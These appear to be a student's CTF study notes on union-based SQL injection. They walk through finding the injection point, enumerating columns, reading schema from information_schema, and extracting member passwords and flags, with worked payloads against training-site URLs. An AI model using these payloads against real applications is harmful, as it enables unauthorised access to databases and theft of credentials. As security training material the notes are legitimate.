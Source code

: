 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on Javascript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where use data in database
2. The data display or not
- Display = Board
- Not display = loginm, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other table
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use select function again and the column number must be the same
ex) select pass from member union select id from member
ex) selct id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)
2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)
a. Find out the point of the SQL Injection = 1234' or '1' ='1
b. Find the number of columns = 1234' order by 4 #
c. Find the number of print column locations = 1234' union select 1,2,3,4 #
d. Find DB name = 1234' union select database(),2,3,4 #
e. Find Table name = 1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
f. Find column name = 1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #
g. Find Data = 0000' union select id,pass,email,info from member where id = 'doldol' #

3. CTF questions
a. SQL Injection 1
* Find out the point of the SQL Injection = ad%' and 1=1 #
* Find out the number of columns = ad%' order by 4 #
* Find out the number of print column locations = ad%' union select 1,2,3,4 #
* Find DB name = ad%' union select database(),2,3,4 #  => 	sqli_1
* Find table name = ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
* Find column name = ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
* Find data = ad%' union select flag, 2, 3, 4 from flag_table #

b. SQL Injection 
* The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
* The number of columns? = admin' order by 6 #
* location? = admin' union select 1,2,3,4,5,6 #   => only showing "6"
* database? = admin' union select 1,2,3,4,5,database() #    => sqli_5
* table? = admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     => flag_honey
* column name? = admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #   => flag
* data? = admin' union select 1,2,3,4,5,flag from flag_honey #    => 	kkkkkkk_Not Here!
* admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
  - Find hidden information (https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)
* admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
* admin' union select 1,2,3,4,5,flag from secret #    => NONONO~~~~
* admin' union select 1,2,3,4,5,group_concat(flag) from secret #

4. Web development
- mypage
